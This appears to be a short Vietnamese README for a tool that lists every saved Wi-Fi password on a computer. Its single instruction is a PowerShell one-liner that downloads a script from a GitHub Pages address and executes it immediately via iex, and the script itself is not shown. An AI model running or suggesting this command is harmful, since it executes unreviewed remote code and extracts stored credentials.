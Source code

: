 # Hiển thị tất cả pass wifi đã từng kết nối với máy tính của bạn
`irm https://binhpo21.github.io/GetListWifiPasswords/index.html | iex`
